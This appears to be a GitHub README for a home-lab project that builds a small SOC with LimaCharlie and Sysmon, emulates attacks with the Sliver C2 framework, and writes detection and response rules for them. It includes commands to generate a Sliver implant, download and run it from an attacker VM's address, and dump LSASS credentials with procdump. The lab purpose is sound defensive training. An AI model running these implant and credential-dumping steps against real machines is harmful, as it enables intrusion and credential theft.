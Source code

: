 <h1>Creating A SOC & Defending Attacks</h1>

<h2>Introduction</h2>

This Project consists of steps on how to:
 <ol type = "1">
  
<li>Build a SOC using LimaCharlie's EDR solution</li>
<li>Setup a Command-and-control (C2) framework</li>
<li>Using Sliver C2 framework to emulate threat actor behaviors</li>
<li>Writing Detection & Response rules to alert for and block new incoming simulated attacks</li>
</ol>

<h2>Languages and Utilities Used</h2>

- <b>PowerShell</b> 
- <b><a href="https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html">VMware Workstation</a></b>
- <b><a href="https://limacharlie.io/">LimaCharlie's SecOps Cloud Platform</a></b>
- <b><a href="https://github.com/NextronSystems/ransomware-simulator">Florian Roth's Ransomware</a></b>
- <b><a href="https://bishopfox.com/tools/sliver">Sliver C2 Framework</a></b>
- <b>Python3</b>

<h2>Environments Used </h2>

- <b>Windows 11 VM</b> (Victim)
- <b>Ubuntu Linux VM</b> (Attacker)
- <b>Windows 10</b> (Security Operations Center)
<h2>Program walk-through:</h2>


<details><summary><h3>Part 1: Setting Up LimaCharlie 🛡</h3></summary>


<p align="center">
<u>First Download either <a href="https://www.virtualbox.org/wiki/Downloads">Oracle VM VirtualBox</a>, or <a href="https://www.vmware.com/content/vmware/vmware-published-sites/us/products/workstation-player/workstation-player-evaluation.html.html">VMWare Workstation</a> then install a <a href="https://ubuntu.com/download/server">Linux</a> and <a href="https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/">Windows 11</a> ISO:</u> 
 <br/>
<img src="https://i.imgur.com/jReyXB2.png" height="80%" width="80%" />
<br />
<br />
Install Sysmon and SwiftOnSecurity’s Sysmon config on your Windows VM to generate telemetry for LimaCharlie using these administrative powershell commands:  <br/>
  <ol type = "1">
   <li> <code>Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip </code></li>
   <li> <code>Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon</code></li>
   <li> <code>Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml</code></li>
   <li> <code>C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml</code></li> 
  </ol>
   <br />
   To Confirm Sysmon is running use these commands:
   <br />
   <code>Get-Service sysmon64</code>
   <br />
  <img src="https://i.imgur.com/WW1gzEB.png"/> </a>
   <br />
   <code> Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -MaxEvents 10</code>
   <br />
   <img src="https://i.imgur.com/j6cy6Aq.png" height="80%" width="80%" />


   <p align="center">
   Now Create an <a href="https://app.limacharlie.io/signup"> LimaCharlie account</a> on your Host machine or another VM. Create an organization using the "Extended Detection & Response Standard" Template. Once the organization is created add a sensor to your Windows 11 VM using the "x86-64.exe" architecture.

 In your Windows VM, open an Administrative PowerShell prompt and paste the following commands:
  <br />
  <ol type = "1">
 <li><code>cd C:\Users\User\Downloads</code></li>
  
<li> <code>Invoke-WebRequest -Uri https://downloads.limacharlie.io/sensor/windows/64 -Outfile C:\Users\User\Downloads\lc_sensor.exe</code></li>
  
<li> <code>cmd.exe</code></li>
 
<li>Now The Command given by LimaCharlie "lc_sensor.exe -i xxxxxxxxxxxxxxxxxx"</li>

  </ol>
  <br />
  <p align="center">
  Press Finish once LimaCharlie Detects your new sensor. Next, configure LimaCharlie to use Sysmon.
   <ol type = "1">
  
  <li>In the left-side menu, click “Artifact Collection”</li>
  <li>Next to “Artifact Collection Rules” click “Add Rule”</li>
  <li>Name: windows-sysmon-logs</li>
  <li>Platforms: Windows</li>
  <li>Path Pattern: wel://Microsoft-Windows-Sysmon/Operational:*</li>
  <li>Retention Period: 10</li>
  
  </ol>
<p align="center">
  After Saving that rule LimaCharlie will start sending Sysmon logs to your timeline.
<img src="https://imgur.com/xnrCVKz.png"/>
</details>
 <details><summary> <h3>Part 2: Sliver C2 Framework :crossed_swords:</h3> </summary>

<p align="center">
Next is to set up Sliver in Linux, swap to your Linux VM, and run these commands:
</p>
<ol type = "1">
<li><code>wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server</code></li>
<li><code>chmod +x /usr/local/bin/sliver-server </code></li>
<li><code>apt install -y mingw-w64 </code></li>
  <li><code># Create our future working directory
mkdir -p /opt/sliver</code></li>
</ol>
<p align="center">
log in to the root and launch Sliver.
 <ol type = "1">
<li><code>sudo su</code></li>
<li><code>cd /opt/sliver</code></li>
<li><code>sliver-server</code></li>
 </ol>
 <p align="center">
  Generate a C2 payload using this command:
   
 <li> <code>#Use ifconfig to find your LinuxVM IP this might require an installation depending on your Linux ISO
generate --http [Your Linux VM IP] --save /opt/sliver</code></li>
   
 <p align="center">
 </br>
  Find the name of your C2 payload:
     <li><code> implants </code></li>
  <img src="https://imgur.com/GkvD1OS.png"/>

   <p align="center">
To easily install this newly generated C2 payload from your Linux VM to your Windows VM, it's possible to use a temporary web server using Python. Exit sliver and run this command in the terminal:
<li><code> python3 -m http.server 80 </code></li>
<p align="center">
Open up your Windows VM and download your C2 payload from that temporary web server by opening up an Administrative PowerShell console, and using this command:
<li><code> IWR -Uri http://[Your Linux VM IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe </code></li>
<p align="center">
Swapping back to your Linux VM relaunch Sliver and start an HTTP listener.
<li><code>http</code></li>
<p align="center">
Back in your Windows VM use this Administrative PowerShell command:
 
<li><code>C:\Users\User\Downloads\[payload_name].exe</code></li>

<p align="center">
Back on Sliver open your sessions, and interact with your new C2 session to verify the connection.
<ol type = "1">
<li><code>sessions</code></li>
<li><code>use [session_id]</code></li>
<li><code>whoami</code></li>
</ol>
<img src="https://imgur.com/8Yo04Zc.png"/>
<p align="center">


 </details>
<details><summary> <h3>Part 3: Launching Attacks :crossed_swords:</h3> </summary>

 
<p align="center">
 From here I Launched an LSASS credential dumping attack that threat actors can use to pull the credentials of current users and domain admins. This could potentially give threat actors a new attack vector to move laterally across a network.
<li><code>procdump -n lsass.exe -s lsass.dmp</code></li>

<p align="center">
 Also Testing out ransomware using <a href="https://github.com/NextronSystems/ransomware-simulator/">Florian Roth's Ransomware <a/>
<img src="https://imgur.com/UsWuijc.png"/>
 </details>
<details><summary> <h3>Part 4: Detecting and Blocking Attacks	🛡</h3></summary>
 
<p align="center">
After launching both attacks I used LimaCharlie's SIEM to look for threat actor behavior first finding the LSASS credential dumping attack using a Sensitive Process filter.
  <p align="center">
<img src="https://imgur.com/lHwq2DD.png"/>
 
<p align="center">
I then wrote a custom Detection & Response rule to Alert when LSASS is accessed, and send a report.
 
</p>
Detect:
 </br>
 <code>event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe</code>
 </br>
 </br>
 Respond:
  </br>
  <code>- action: report
  name: LSASS access</code>

 <p align="center">  
 After that, I moved on to the ransomware. First identifying a new process on the timeline that was caused by the ransomware.
   <p align="center">
<img src="https://imgur.com/eY1LEdq.png"/>
  
  <p align="center">   
Then Wrote Another D&R rule for sending alerts, but then took it a step up, and if this process was run again to also terminate the parent process. Which would also kill the c2 payload, and remove shell access from the attacker VM.

   </p>
Detect:
 </br>
 <code>  - op: is
    path: event/FILE_PATH
    value: C:\Windows\system32\vssadmin.exe
  - op: contains
    path: event/COMMAND_LINE
    value: 'delete'
  - op: contains
    path: event/COMMAND_LINE
    value: 'shadows'
  - op: contains
    path: event/COMMAND_LINE
    value: '/all' </code>
 </br>
 </br>
 </code>
 Respond:
 <code>- action: report
  name: vss_deletion_kill_it
- action: task
  command:
    - deny_tree
    - << routing/parent >> </code>
  </br>

### <img src="https://imgur.com/CD9phES.png"/>

   <p align="center">
Finally to confirm my new D&R rule was running properly. I restarted Florian Roth's Ransomware, and the process was killed immediately. A new detection alert will be sent to report this action.
     <p align="center">
<img src="https://imgur.com/q20aInI.png"/>
 </details>
